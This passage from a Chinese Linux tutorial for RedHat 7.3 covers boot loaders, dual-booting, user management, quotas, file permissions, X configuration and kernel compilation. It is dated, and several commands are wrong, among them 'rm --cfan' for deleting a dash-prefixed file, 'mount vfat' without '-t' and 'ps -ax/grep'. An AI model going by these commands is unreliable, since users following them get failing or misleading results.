    initrd=/boot/initrd-2.4.18-3.img
    read-only
other=/dev/hda2
    label=windows
```

下面对主要选项做简要说明。

“timeout”：设置LILO启动默认操作系统的等待时间，上面的设置中，如果30秒内输入指令的话就进入默认的操作系统；

“default”：指定默认启动的操作系统；

“image”：该段落用来指定linux的启动信息；包括启动位置，名称；

“other”：该段落用来指定其他操作系统的启动信息，也包括了启动位置、名称。

需要提醒用户注意的是，在修改完毕后，必须执行“lilo”命令才能使设置生效。

### 小技巧2：忘记root密码的解决方案

如果用户忘记了root账号的密码，可以在启动计算机后，屏幕出现“LILO:”时，输入“linux single”进入单用户模式，这样无需密码就能够取得root权限，然后再执行“passwd”命令重新设置密码即可。

### (2) GRUB

GRUB 是 GRand Unified Bootloader 的缩写，它可以在多个操作系统共存时选择引导哪个系统，可以引导的操作系统包括Linux、FreeBSD、Solaris、NetBSD、BeOS、OS/2、Windows 95/98/NT/2000/XP。它可以载入操作系统的内核和初始化操作系统（如Linux, FreeBSD），或者把引导权交给操作系统（如 Windows 98）来完成引导。

GRUB可以使引导过程变得非常可靠。例如，它可以直接从 FAT、minix、FFS、ext2 或 ReiserFS 分区读取 Linux 内核。这就意味着无论 Linux 安装在哪个分区；它都能找到Linux的内核。另外，GRUB有一个特殊的交互式控制台方式，可以帮助用户手工装入内核并选择引导分区，该功能最大的好处就是，即使GRUB菜单配置不正确，用户仍然可以引导操作系统。

GRUB完全可以代替LILO来完成对Linux的引导，它的特点更加适用于普通用户，因为大多数的用户除了安装Linux外还会安装其它操作系统；而且GRUB还支持大硬盘，这一点要强于LILO，因为现在大多数Linux发行版本的LILO都有同样的一个问题，即根分区（/boot分区）不能划分在超过1024柱面的地方，一般是在8.4GB左右的地方，否则LILO不能安装，或者安装后不能正确引导系统，而GRUB就可以支持根分区在8GB以外的操作系统（前提是，用户的硬盘是在LBA工作模式下）；另外，GRUB还为广大用户提供了菜单式选择的开机画面的功能，也就是说在引导开机的同时会显示开机画面，用户可以制作个性化开机画面，这样也为很多电脑厂家提供了显示厂家信息的场所，如图16所示。

而且，更加令人兴奋的是GRUB不但可以通过配置文件进行例行的引导，还可以在选择引导前动态改变引导时的参数；可以动态加载各种设备。

因此，笔者强烈建议用户选择GRUB。

### 小技巧：配置GRUB

```
“timeout second”：设定引导默认操作系统的时间，如“timeout 10”表示10秒内没有指令就引导默认系统。如果设成“timeout -1”，GRUB就会一直等待直到用户选择一个选项为止；
“default num”：默认启动第 num+1 行选项，也就是说“default=1”则默认启动菜单第二行的操作系统；
“splash pathname/filename”：设置开机画面文件的所在路径及文件名，如“splash /boot/logoimage/logo.jpg”。
```

## (三) Linux的多系统共存之道

多系统共存，是普通用户最常见的问题，因为大多数的用户不会仅使用一个Linux操作系统的，下面就以Windows 98、Windows XP与Linux三系统共存为例来简单介绍一下多系统共存的解决方案。

要实现这几个系统的共存，必须在安装的时候就要注意这样的先后顺序：先安装Windows 98，再安装Windows XP，然后再安装Linux。

安装完Windows XP后，在启动计算机时，用户可以使用Windows XP的多系统引导菜单来进行Windows 98与Windows XP的选择。

最后安装的是Linux，安装过程前面已经介绍了，不再多说，但是要提醒用户注意的是，在安装过程中的“引导装载程序”设置界面时，根据是否选择了“LILO（或者GRUB）”安装在MBR中，而出现以下两种多系统启动方式：“以LILO或者GRUB启动”和“以Windows XP的启动菜单启动”。

### (1) 安装在MBR中

如果选择了安装在MBR中，那么安装完毕后，将会使用LILO（或者GRUB）来引导三个系统，大致的情况是：启动计算机进入LILO（GRUB）的主界面，用户可以选择进入Linux或者Windows，如果进入Windows选项的话，将会回到Windows XP的多系统引导菜单，进入Linux选项的话将会启动所安装的Linux系统。

### (2) 不安装在MBR中

如果用户选择了不安装在MBR中的话，Linux的启动信息会安装在root（/）分区上，这时候如果启动计算机的话，用户只能看到Windows XP的多系统引导菜单，而且无法进入Linux。在这种情况下，我们要做的就是将Linux的启动信息也加入Windows XP的多系统引导菜单。

① 将Linux安装光盘上的DOSUTILS目录下的loadlin.exe复制到硬盘上的某个FAT32分区上，然后再将DOSUTILS下的AUTOBOOT子目录中的内核映像文件vmlinuz复制到loadlin.exe所在目录。

② 使用Windows 98启动盘启动计算机并进入MS-DOS，进入存放loadlin.exe的目录，执行“loadlin vmlinuz root=/dev/hda6”进入linux，在输入命令中的“hda6”要视实际情况而定，在这里假设/dev/hda6上安装了Linux，关于硬盘在Linux命名的规则，将在后面进行说明。

③ 在Linux中以root用户登录，执行“dd if=/dev/hda6 of=/linuxboot.bot count=1”，其中假设hda6为/分区所在位置），此命令的作用是将/dev/hda6的启动信息（前面已经提到了，用户在安装Linux时，将启动信息保存在root分区上）存入linuxboot.bot文件。

④ 完成了linuxboot.bot文件的输出后，执行“mount vfat /dev/hda1 /mnt/c”命令，将Windows XP所在分区（这里假设为/dev/hda1）挂载到Linux的/mnt/c目录下，然后将linuxboot.bot文件复制到/mnt/c也就是Windows XP的分区下。

⑤ 重新启动计算机，进入Windows XP，修改该分区下的boot.ini文件（注意，该文件默认为系统隐藏文件），在最后加入以下一行内容：

```
C:\linuxboot.bot=“RedHat Linux 7.3”
```

重新启动计算机后，在 Windows XP 的多系统引导菜单中就多了 RedHat Linux 7.3 的选项了。

总之，以上介绍的这两种方法各有各的好处，日常工作对于 Windows 依赖较重的用户推荐使用第二种方法，因为这样更熟悉也更利于操作一些；图省事的用户当然就选择第一种方法了。

## (四) 轻松卸载Linux

既然学会了安装Linux系统，有些聪明的读者将会考虑到另外的一个问题：如何卸载？

实际上，Linux的卸载十分简单。由于Linux大多安装在单独的分区上，因此即使对于普通用户来说，卸载工作是很轻松的。

一般来说，在卸载Linux前，最好把/home下的用户数据进行备份，备份了数据后，用户就可以使用Windows 2000/XP的磁盘管理工具或者第三方分区工具，删除Linux分区即可。

如果用户使用的是LILO或者GRUB作为多系统引导菜单的话，可以使用启动盘启动计算机进入MS-DOS，执行“fdisk /mbr”命令清除写在MBR上的LILO或者GRUB即可。

如果用户使用的是Windows 2000或Windows XP的多系统引导菜单的话，只要在boot.ini文件中删除启动Linux的语句即可，如前面提到的多系统共存方法中加入的C:\linuxboot.bot=“RedHat Linux 7.3”。

这样就完成了Linux的卸载。

### 三、Linux 的用户管理

#### (一) 使用命令行方式添加、修改账号及组

在Linux下用户的概念始终贯穿在对系统的操作过程中，不同的用户有着不同的使用权限，任何用户都不能越级操作，这样就大大提高了Linux的安全性，并且充分体现了Linux多用户的概念。因此，Linux的用户概念对于学习Linux是十分重要的一环。下面，我们就来详细介绍如何添加、修改账号（用户）及组。

### 1. 添加账号

在Linux的文本模式下有两种不同的命令可以用来添加用户“adduser”和“useradd”命令，两个命令的语法是完全相同的，用户可以根据自己的喜好任选一个，在这里以“useradd为例”。

在文本模式或X Window的控制台（Console）下输入“useradd cfan”（其中cfan为帐号，用户可以根据实际情况进行输入）。

执行了上面的命令后，用户会发觉，系统并没有像Windows系统那样提示用户输入密码，这是由于“useradd”命令只负责添加用户，不负责设置密码，用户需要使用另外的命令“passwd”来为该帐号设置密码。

需要提醒用户注意的是，添加帐号的操作必须以根用户的身份登录才能进行。

输入“passwd cfan”命令，接下来系统会提示用户输入该帐号的密码，具体方法与Windows类似，不予赘述了，如图17所示。

Linux对帐号密码有着很严格的要求，过短的密码、基于单词的密码、相同字符过多的密码都会被系统警告，这对于帐号的安全是很有好处的。

需要提醒用户注意的是，在根用户的界面下使用“passwd”命令时一定要在该命令后加入帐号名，否则将会修改用户自己的密码。

### 2. 修改账号及密码

使用“useradd”命令添加的帐号所拥有的信息是缺省的，用户可以根据需要进行修改，方法是使用“usermod”命令来修改信息，用户只需要在该命令后面加上必要的参数来指定需要修改的信息即可。

“usermod”的语法格式为：

```
usermod [-u uid [-o]] [-g group] [-G group,...] [-d home [-m]] [-s shell] [-c comment] [-l new_name] [-f inactive] [-e expire ] [-p passwd] [-L|-U] name
```

其中，语法中最后的“name”就是需要修改的账号，下表中列出了上述语法中修改用户信息所用参数的详细说明。

下面举个例子，如果用户cfan需要将其登录名改为Computerfan，并且移动目录的话，就可以使用下面的命令。

```
usermod -d /home/Computerfan -m -l Computerfan cfan
```

另外，用户同样可以使用前面提到的“passwd”命令来修改账号密码。

### 3. 禁用账号

用户如果仅仅希望停止某个账号的使用，并不希望删除它，就可以采用禁用的方法。

首先，以根用户身份登录，如果系统没有使用shadow隐藏密码功能，请编辑/etc/passwd文件；如果使用了 shadow 隐藏密码功能，就编辑 /etc/shadow 文件。

在文件中查找到需要禁用的账户，然后将该帐户的密码替换为“*”(一个星号)，注意，密码在用户数据段的第二个位置。

最后，保存并退出文件即可。

### 4. 删除账号

如果用户需要删除某个账号，可以使用“userdel -r username”命令。
例如，需要删除cfan账号，输入“userdel -r cfan”即可，这样该账号以及该帐号的目录都会被删除掉，如果仅希望删除账号而保留目录的话，请去掉参数“r”，即使用“userdel cfan”的命令。

### 5. 建立、删除组及设置组权限

组的概念应该不用笔者多说，如果Linux系统中需要多个相同权限的账号的话，为了便于添加与管理如删除、调整权限等，最好的办法就是设置一个组，然后再将账号分配的该组下。
组的添加、删除以及修改属性命令的使用方法与设置帐号命令的使用方法是相同的，由于前面已经进行了较详细的介绍，因此就不再多说了，具体的对照关系如下。

- “groupadd”:添加组，使用方法与“useradd”相同。
- “groupdel”:删除组，使用方法与“userdel”相同。
- “groupmod”:修改组权限，可以参考“usermod”的语法与参数。

#### (二) 在 X Window 下进行用户管理

上面介绍了使用命令行的方式进行用户管理，但是对大部分的用户来说，还是希望能够像Windows那样使用窗口模式进行用户管理，因为这样不容易出错且容易理解。

对于不同版本的Linux，它的X Window下的用户管理程序是不一样的，在在这里我们还是仅以RedHat 7.3下的用户管理为例来进行介绍。

在 X Window 下，打开控制面板【Control Panel】，双击【User Manager】(用户管理)图标，如图18所示。

打开【User Manager】，其主窗口如图19所示。

在窗口中列出了系统中已添加的账号和组，用户可以在其中进行相关的操作。

### 1. 添加账号

单击工具栏上的【New User】按钮，在弹出的对话框中用户可以设置帐号名(Username)、密码(Password)以及该帐号的主目录(home directory)，如果选中“Create private group for the user”的话，系统将会为该帐号创建一个同名的组，如图20所示。
然后单击【确定】按钮，即可完成所有的操作。

### 2. 修改账号属性

选中某个帐号后，单击【Properties】(属性)按钮，在弹出的对话框中可以修改该帐号的所有属性(如图21)。

修改用户信息所用的参数：
| 参数 | 名称 | 说明 |
| :--- | :--- | :--- |
| -c | 说明信息 | finger文件中的说明信息。 |
| -d | 账号所在目录 | 为该帐号设置一个新的目录位置，另外，如果在d参数后加上一个m参数，那么该用户原有目录中的内容将会被移动到新的目录中 |
| -e | 过期时间 | 设置账号的失效日期，用户应当请按照“月/日/年”的格式输入失效日期 |
| -f | 禁用期 | 禁用该帐户之前需要等待的天数，需要说明的是，只有在该帐号没有修改其密码的时候这个选项才能使用，如果不想使用这个选项，请输入数值“-1”(缺省值) |
| -g | 原始分组 | 分配给用户的组名称或者编号。 |
| -G | 分组 | 为该帐号分配额外的分组，如果该分组不止一个的话，可以使用“，”(逗号)来分隔，例如，需要将root和admin这两个分组分配给该帐号，输入“root,admin” |
| -l | 登录名 | 修改账号的登录名，但是用户目录不会自动改变，如果需要改变目录的话应当使用前面介绍的“d”参数 |
| -p | 用户密码 | 修改该账号的密码 |
| -s | shell | 如果用户要求使用另外一个登录shell，那么可以使用这个参数修改它。 |
| -u | UID | 改变用户ID的数值。笔者不推荐用户使用此参数 |

## 3．添加、修改及删除组

单击【New Group】按钮，在弹出的如图22所示的对话框中，可以添加一个新组。

添加了一个组后，可以选中它并单击【Properties】（属性）按钮来修改它的组名及所属的组，如图23所示。

删除组的方法更加简单，只要选中需要删除的组然后单击【Delete】（删除）按钮即可。

#### （三）限制用户的磁盘空间——设置磁盘限额

磁盘限额可以帮助管理员限制Linux中的指定用户（如FTP用户，Samba pcguest帐号，Appletalk用户等）可以使用的磁盘空间或文件个数。在缺省状态下，Linux的磁盘限额是没有任何限制，因此需要用户在文本模式或控制台下进行相关的设置。

打开/etc/fstab文件，一般都会有下面的语句。

```
“/dev/hdb1 / ext2 defaults 1 1
/dev/hdb2 /home ext2 defaults 1 2”
```

假设需要设置Cfan用户在目录/home/Cfan下能够使用的磁盘空间，首先要将上面的语句修改为。

```
“/dev/hdb1 / ext2 defaults 1 1
/dev/hdb2 /home ext2 defaults,usrquota 1 2”
```

修改完毕后，以root账号登录，进入需要设置磁盘配额的分区目录下，在本例中为“/home”，创建空文件quota.user（命令为“touch /home/quota.user”），然后为该文件分配只有创建者（即root用户）拥有读写权限（命令为“chmod 600 /home/quota.user”）。

重新启动计算机后执行“edquota -u Cfan”命令，为指定的用户分配磁盘配额和最多存放的文件个数。

屏幕会出现如下提示。

> > “Quota for user Cfan
> /dev/hda2: blocks in use: 0, limits (soft=5000, hard=6500)
> inodes in use : 356, limits (soft=1000, hard=1500)”

用户可以根据实际情况更改limits项。

设置完毕后，还可以通过“quota Cfan”命令来查看Cfan用户的磁盘配额。

### 四、Linux 的常规设置

#### (一) 操作文件及目录

由于Linux的X Window下的操作方法与Windows类似，因此对于相关操作，就不作详细介绍了，我们这里只介绍文本模式下的几个最常规的操作文件及目录的方法。

#### 1. 如何创建与删除目录

在用户日常的工作中最常见的操作就要算对文件及目录(文件夹)的操作了，和Windows一样，Linux的X Window下，这些操作可以只用就能轻松完成，因此就不再多说了，在这里，只向读者介绍一下文本模式下的操作命令。

##### (1) 创建目录

用户可以使用“mkdir”命令来创建一个目录，熟悉DOS的用户可能会发现该命令与DOS下的md命令类似，都是“Make Directory”的缩写。

“mkdir”的基本语法如下。

```
mkdir [选项] DIRECTORY
```

语法中，DIRECTORY为目录名，在[选项]中用户可以使用以下参数。

- - m 为创建的目录设置存取权限（用户也可以在创建后使用“chmod”命令设置，在后面介绍）
- - p 使用该参数，系统能够一次建立多个不存在的目录，并且可以使用路径名称进行创建。
- - v 在创建目录后，显示出相关信息。

举例来说，如果用户需要在当前目录中建立Cfan目录，同时需要在Cfan目录下建立Computer目录的话，输入如下命令即可完成。

```
mkdir -p Cfan ./Cfan/Computer
```

执行该命令后，目录权限为文件有读、写和执行权限。

如果用户需要系统返回创建目录的信息，可以使用 -v 参数，如图24所示。

```
root@tu168003.tsinghua.edu.cn# mkdir -v cfan
mkdir: created directory `cfan'
root@tu168003.tsinghua.edu.cn# □
```

##### 图24

##### (2) 删除目录

删除目录的操作是通过“rmdir”命令来完成的，它的语法是：

```
rmdir [选项] DIRECTORY
```

在[选项]中，用户可选的参数如下。

- - p 可以逐层删除目录DIRECTORY，也就是说当子目录删除后如果其父目录为空，也一同被删除。
- - v 输出删除目录的相关信息，与“mkdir”的“-v”参数类似。

需要提醒用户注意的是，删除目录前应当首先清空该目录的内容。

#### 2. 改变与显示目录

在Linux下，用户可以使用与DOS类似的命令来改变或显示目录。

改变目录可以使用与DOS相同的“cd”命令，它的语法非常简单。

```
cd [DIRECTORY]
```

举例来说，如果用户的当前目录下有一个Cfan目录需要进入，输入“cd Cfan”即可，另外，用户也可以使用“cd ..”这一DOS下常用命令来回到上一层目录。

##### 小技巧：巧妙使用“Tab”键

输入命令时如果需要输入的某个目录名或者文件名很长的话，总是给用户带来很多麻烦，在Linux下可以这样解决。

如果输入的前几个字符能够确定该目录下的唯一的文件时，用户只需按下【Tab】键，系统可以自动补齐该文件或目录名的剩下部分，例如用户要进入ComputerFans目录，当输入到“cd Com”时，该目录下前三个字符为“Com”的目录只有“ComputerFans”，按下【Tab】键就可以自动补全目录名，大大节省了时间，从而提高了输入效率。

进入目录后，用户可以执行“pwd”命令来显示当前目录的完整路径名，如图25所示。

```
root@tu168003.tsinghua.edu.cn# pwd
/home/ben/Cfan
root@tu168003.tsinghua.edu.cn# □
```

##### 图25

如果用户希望看到当前目录下的文件和子目录的话可以使用“ls”命令，该命令与DOS下的“dir”几乎是一样的，它同样也有许多参数来帮助用户更好的查看目录内容。

语法: ls [选项] [目录或文件]

[选项]中的参数有很多，由于篇幅有限，在这里只列出最常用的几个参数。

- - a 列出目录下所有子目录与文件，也包括隐藏文件。
- - A 列出目录下所有子目录与文件，包括隐藏文件，但不列出“.”和“..”。
“-a”与“-A”参数的区别如图26。
- - c 按文件的修改时间排序。
- - C 分成多列显示各项。

```
root@tu170180# ls -a
. 1 3 .bash_logout .bashrc Computer
.. 2 .bash_history .bash_profile Cfan test
root@tu170180# ls -A
1 3 .bash_logout .bashrc Computer
2 .bash_history .bash_profile Cfan test
root@tu170180#
```

- - d 在参数后面加入目录名后，可以列出该目录下面的内容
- - F 在目录名后面标记“/”，可执行文件后面标记“*”，符号链接后面标记“@”，管道（或FIFO）后面标记“|”，socket文件后面标记“=”。
- - l 以长格式来显示文件的详细信息，列出的详细信息依次包括了文件类型、权限、链接数、文件属主、文件属组、文件大小、建立或最近修改的时间和名称。
- - p 在目录后面加一个“/”。
- - q 将文件名中无法显示的字符用“?”替代。
- - r 按字母逆序或最早优先的顺序显示输出结果。
- - s 列出每个目录项所用的块数，包括间接块。
- - t 显示结果按最后一次修改时间排序。
- - u 显示结果按文件上次存取的时间排序。

##### 小技巧1： 执行ls命令时按文件类型显示彩色

输入命令 “alias ls='ls --color=auto'”即可。

##### 小技巧2： 计算文件和目录的数量

用户可以使用下面的命令来计算文件和目录个数：
计算文件数 “ls -l * |grep "^-"|wc -l”
计算目录数 “ls -l * |grep "^d"|wc -l”

##### 小技巧3： 只列出子目录

ls -F | grep /$ 或者 alias sub = "ls -F | grep /$" (linux)

#### 3. 复制、删除和移动文件

复制文件也是最常用的命令，Linux的复制命令是“cp”，比DOS下的“copy”还要简洁，用法与“copy”几乎相同，如“cp file1 /home/cfan”将会把file1复制到/home/cfan目录下；“copy file1 file2”，令把文件file1拷贝到文件file2，同时file1还依然存在。

- - rm file
- - rm file1 file2 file3
- - rm f*

其中第一个命令可以删除名为file的文件；第二个命令可以同时删除三个文件；第三个命令可以删除当前目录下文件名以字母f开头的所有文件。用户还可以使用参数来执行“rm”。① i为交互操作参数，在进行删除时会提示用户确认删除该文件，如图27所示。

```
root@linux# rm -i cfan
rm: remove "cfan"? y
root@linux#
```

② r 为删除某个目录下的内容（包括文件和目录），如图28所示。

```
root@linux# rm -r Cfan
rm: descend into directory "Cfan"? y
rm: remove "Cfan/cfan"? y
rm: remove directory "Cfan"? n
root@linux#
```

系统首先询问用户是否进入Cfan目录，如果进入的话，将会询问是否删除目录下的文件；最后会询问用户是否删除Cfan目录。r参数的缺点是总会询问用户是否进入子目录，如果子目录较多的话，操作起来就会非常不方便，而且无法删除非空的子目录。用户可以使用f参数来配合r参数的使用。

f参数的作用是强制删除文件，不作任何提示，因此如果用户希望删除Cfan目录及其下的所有内容，只要执行“rm -rf Cfan”命令即可。

##### 小技巧1： 如何操作带有特殊字符的文件

Linux系统中如果有以“-”开头的文件，如“-cfan”，那么用户执行“rm -cfan”命令的时候，系统会提示进行了“无效选项”(invalid option)，这是由于文件名的第一个字符为“-”，而Linux将“cfan”当作某个参数了，因此无法执行，解决的办法是再加入一个“-”，也就是“rm --cfan”，这样操作就可以顺利完成了，如果是其它特殊字符的话可以用双引号把特殊字符括起来。

##### 小技巧2： 在Linux系统中制作ISO文件

在Linux系统中，用户可以通过复制命令轻松的将光盘上的内容制作成一个ISO文件，只要执行“cp /dev/cdrom name.iso”即可。

用户可以使用“mv”命令来为文件或目录改名或将文件由一个目录移入另一个目录中。该命令的语法非常简单。

```
mv [选项] 源文件或目录 目标文件或目录
```

选项中的主要参数如下。

#### （二）设置文件及目录权限

文件或目录的访问权限分为只读，只写和可执行三种。以文件为例，只读权限表示只允许读其内容，而禁止对其做任何的更改操作。可执行权限表示允许将该文件作为一个程序执行。文件被创建时，文件所有者自动拥有对该文件的读、写和可执行权限，以便于对文件的阅读和修改。用户也可根据需要把访问权限设置为需要的任何组合。

Linux出色的安全性可以防止任何未授权（没有权限）的帐号访问用户的文件，方法是在文件和目录上设置相应的权限。

- 一个文件被创建后，缺省具有以下三种权限。
- ○ 读权限（用r表示），可以显示该文件的内容。
- ○ 写权限（用 w 表示），可以编辑或删除它。
- ○ 执行权限（用 x 表示），如果该文件是一个shell脚本或程序，则允许运行它。

目录的权限与文件的略有不同，表现在：用户拥有目录的读权限后可以列出其中的内容；拥有写权限可以在该目录中创建文件；拥有执行权限可以搜索和访问该目录。

有三种类型的用户可以对文件或目录进行访问，分别是文件所有者（用u表示），同组用户（用g表示）、其他用户（用o表示）。文件所有者一般是文件的创建者，所有者可以设置同组用户是否有权访问文件，也可以为系统中其他用户设置对文件的访问权限。

每一文件或目录的访问权限都有三组，每组用三位表示，分别为文件所有者的读、写和执行权限；与属主同组的用户的读、写和执行权限；系统中其他用户的读、写和执行权限。

用户可以使用前面提到的“ls -l FileName”命令来查看文件的权限。在列出的权限说明中共有10个字符如“-rwxr--r--”，其中第一个字符指定了文件类型，如果第一个字符是横线，表示是一个非目录的文件，如果是d，表示是一个目录（一个目录也是一个文件）。后面的9个字符三个为一组，分别代表文件所有者具有读、写及执行的权限，与所有者同组的用户以及系统中其他用户只具有读权限。

用户可以使用 chmod 命令来重新设定不同的访问权限，也可以利用chown命令来更改某个文件或目录的所有者，利用chgrp命令来更改某个文件或目录的用户组；下面笔者将逐一进行介绍。

#### 1. chmod 命令

chmod 命令是用于改变文件或目录访问权限的，有以下两种用法。

##### （1）文字设定法

```
chmod [用户] [+ | - | =] [权限] 文件名
```

- [用户]中可以设定为前面提到的三种用户中的一个。
- u 表示文件或目录的所有者。
- g 表示与文件所有者同组的所有用户。
- o 表示系统中的其他用户。
- 另外，还可以使用 a 来表示所有用户（即 all）。

- 用户可以使用 +、-、= 作为操作权限的符号：
- + 添加某个权限。
- - 取消某个权限。
- = 赋予给定权限并取消其他所有权限（如果有的话）。

在[权限]中，用户可以设定读、写及执行三种权限，分别使用 r、w、x 即可。

- 除了常见的三种权限外，用户还可以设定以下特殊权限。
- X 只有目标文件对某些用户是可执行的或该目标文件是目录时才追加 x 属性。
- s 在文件执行时把进程的属主或组ID置为该文件的文件属主。方式 “u+s” 设置文件的用户ID位，“g+s” 设置组ID位。
- t 保存程序的文本到交换设备上。
- u 与文件所有者拥有相同的权限。
- g 与和文件所有者同组的用户拥有相同的权限。
- o 与其他用户拥有相同的权限。

用户可以通过一行命令完成多中权限的设置，只要用逗号“,”分隔即可。例如“chmod g+w,o+w,…”。

例如，要设定cfan文件除所有者以外的用户没有任何权限，可以执行命令“chmod g-r,g-w,g-x,o-r,o-w,o-x cfan”即可，也可以简写为“chmod go-rwx cfan”。

如果要为所有用户都设定执行的权限，可以执行 “chmod a+x cfan”。

##### （2）数字设定法

```
chmod [权限] 文件名
```

数字设定法的原理与文字设定法是相同的，只不过将文字设定法中的权限 r、w、x 分别换成了 4、2、1，在设定权限时，只要将需要的权限相加即可得到最终的数字，例如，如果想让某个文件具有读、写两种权限，那么[权限]中的数字应该是把 4 (可读) +2 (可写) = 6 (读 / 写)。用户的顺序与文字设定法相同也是 u、g、o。

举例来说，命令“chmod 644 cfan”，将把cfan文件的属性设为“-rw-r--r--”，也就是说文件所有者具有读写权限，与文件所有者同组的用户具有读权限，系统中其他用户也具有读权限。

权限，系统其他用户拥有读权限。命令“chmod 750 cfan”将把文件权限设为文件所有者用有读、写、执行权限，与文件所有者同组的用户具有读、执行权限，系统其他用户没有任何权限。

#### 2. chgrp 命令

chgrp 命令的目的是改变文件或目录所属的组。chgrp [选项] [组名] 文件名 在[选项]中最常用的参数是 R，它的作用是改变指定目录及其下的所有子目录和文件的所属组，例如命令“chgrp - R Cfan /home/cfan/book”可以将 book 目录下的所有文件及目录的所属组改为 Cfan。

#### 3. chown 命令

chown命令可以更改文件或目录的所有者和所属组。这个命令应该说是非常有用的，比如说某个用户将属于自己的一个文件复制给另一个用户后，应当将其所有者更改为另一个用户，否则另一用户将无法对该文件进行操作。chown [选项] [用户或组] 文件名 chown使用的方法与chgrp相同，而且最常用的参数 R 的作用与用法也是一样的，因此不再赘述。

##### 小技巧：查看文件的几个小技巧

- 如果用户想看 Cfan 文件的前 3 行内容，可以使用“head -3 /home/Cfan”命令。
- 如果用户想查看 Cfan 文件的后 5 行内容，可以使用“tail -5 /home/Cfan”命令。
- 如果用户想查看 Cfan 文件中间段落的内容，可以使用“sed -n '5,20p' /home/Cfan”命令，可以查看文件的第 5 行到第 20 行的内容。

#### （三）配置 X Window

X Window 对于Linux的重要性不言而喻，可以说没有了 X Window，Linux就缺少了一把与Windows对抗的利器，会使很多用户被迫远离Linux。简单的说，X Window就是Linux的窗口管理器程序，它的出现使用户找到了使用Windows操作系统时的感觉，同时也大大提高了常规操作的工作效率，用户可以像在Windows下一样通过对话框和窗口的方式完成操作。

在前面已经介绍了安装时如何配置 X Window，但是，很多时候用户希望能够，在使用Linux的过程中同样可以配置 X Window。需要注意的是，决定 X Window 配置的主要因素是显卡和显示器，因此，用户应当在配置 X Window前了解相关的信息。笔者推荐用户使用“Xconfigurator”命令来配置 X Window，具体方法如下。

(1) 在控制台或文本模式下输入“Xconfigurator”命令，首先出现提示画面，单击【确定】按钮后，系统会显示出自动探测到的显卡类型，如图29所示。

Linux 最近的几个版本已经极大扩充了对各种显卡的支持，所以绝大部分用户的显卡，系统都能够自动识别出来，所以在配置 X Window 的时候不必担心显卡不被识别的问题。 (2) 单击【确定】按钮后，如果系统同样检测出了显示器的型号，会出现如图30所示的界面，用户只要直接选择【是】按钮，就能够轻松完成 X Window 的配置。

(3) 如果选择【否】或者 Linux 没有识别出用户的显示器，将会出现一个显示器列表，如图31所示。在列表中用户可以选择自己的显示器型号或者与其性能指标类似的显示器型号，如果都没有的话，可以选择第一行的【定制 (custom)】选项。在接下来出现的画面中，用户应当依照屏幕提示手动设置显示器的水平和垂直刷新率，在设置时最好找出显示器的说明书，对照着产品说明输入相关设置，这样可以尽可能的保护显示器。

（4）自定义显示器完毕后，会出现如图32所示的提示画面。

（5）该提示询问用户是否跳过显卡的探测，如果用户的显卡能够被识别的话，可以选择【探测】。在这里我们以选择【不探测】而进行手工设置为例。选择【不探测】后，系统会出现手工设置显存的画面，用户应当根据显卡的实际情况进行选择，如图33所示。

（6）单击【确定】按钮后，接下来的界面是选择显卡的芯片时钟，强烈推荐用户选择【不设置时钟芯片】，如图34所示。

（7）单击【确定】按钮后，系统会询问用户是否运行 Xprobe 来探测时钟频率，选择“Probe”，自动检测就会进行，接着用户将会选择显示模式，方法是按下【TAB】键在8位、16位、24位中进行选择，用户可以选中能够正常显示的几种模式，如图35所示。

（8）最后，系统将会询问用户是否尝试运行 X Window ，如果选择【是】将会进行测试，若不成功可以重新配置。若成功将顺利完成 X Window 的配置，如图36所示。

设置完毕后，用户就可以在文本模式下输入“startx”命令启动X Window了。

## 小技巧1：在X Window中切换KDE和GNOME

KDE和GNOME是最常见的两种X Window桌面环境，现在的Linux都同时提供了这两种环境，用户可以在使用中随意切换。

在X Window界面可以通过菜单来切换，方法是找到所需的菜单后执行，选择所需的桌面，重新启动X Window即可。

也可以在文本模式下执行“switchdesk KDE”或者“switchdesk GNOME”命令，然后再执行“startx”命令，就可以进入KDE或者GNOME了。

## 小技巧2：消除X Window下的死机现象

有两个最常用的解决方法： 一是按下【Ctrl+Alt+Backspace】组合键来关闭当前正在运行的任务；二是按下【Ctrl+Alt+F2】组合键，切换到另一个用户平台，登录完毕后执行“#ps -ax/grep startx”命令，列出你Xserver的所有进程标识，然后输入“kill -9 PID_Number”，最后按下【Alt+F1】组合键返回到原来的平台即可。

#### （四）编译内核

内核是Linux的心脏，它是在引导时装入的程序，用来提供用户层程序和硬件之间的接口，执行发生在多任务系统中的实际任务转换，处理读写磁盘的请求，处理网络接口，以及管理内存等。Linux的版本就是由内核版本决定的。

编译内核主要有两个原因，一是升级内核，就像用户将操作系统由Windows 98升级到Windows 2000一样，只不过Linux的升级是通过升级内核来完成的；二是调整系统的配置如减少内核支持的设备，增加新设备程序等。

- （1）首先取得最新的内核源代码linux-X.X.XX.tar.gz，如果用户只是需要更改一些设备的话，可以不使用最新的内核，在原有的内核上编译即可。
执行“cd /usr/src/”命令以进入目录 /usr/src/；接下来使用“rm -rf /usr/src/linux”将旧的内核源代码删除，为了保险起见，用户也可以将其移动到其它目录；然后将新的内核源文件复制到/usr/src目录下，命令是“cp linux-2.0.35.tar.gz /usr/src/”；最后使用“tar xzf linux-X.X.XX.tar.gz”命令将内核文件解压缩以产生新的目录 /usr/src/linux。至此，准备工作就完成了。

（2）接下来将要创建符号链接。
进入到目录 /usr/include（命令是cd /usr/include），删除所有旧的头文件（命令是rm -rf linux asm scsi），然后创建符号链接将用户的系统指向包含有新内核代码的新的头文件（命令是：ln -s /usr/src/linux/include/linux linux ln -s /usr/src/linux/include/asm-i386 asm ln -s /usr/src/linux/include/scsi scsi），进入目录 /usr/src/linux执行命令“make mrproper”以清除所有可能会引起问题的附加额外的源代码。
顺利完成了上面的操作后，用户就可以开始配置内核了。

（3）进入目录 /usr/src/linux，执行命令“make menuconfig”用菜单方式配置内核，如果是在X Window下也可以使用“make xconfig”即图形界面方式来配置，另外，用户也可以使用“make config”采用文本方式配置内核。笔者不推荐用户使用“make config”方式进行配置，因为容易出现错误。

（4）在出现了配置菜单后，用户可以根据实际情况进行设备及协议的选择，如声卡、显卡、USB设备、文件系统等等。一切有关Linux系统的设备、模块、协议等都可以在这里进行配置。
在进行内核配置时，有三个选项可供用户选择。
“y” 系统会将用户选择的内容编译进内核；
“m” 系统会将其编译成模块而不写入内核，Linux只在启动的时候进行模块加载；
“n” 系统不支持该功能。

（5）在调整了相关设置后，工作并没有结束，这一点与Windows有着很大的不同，因为前面的工作只是设置完毕，内核并没有进行编译，所以接下来的工作就是编译并创建新的内核。
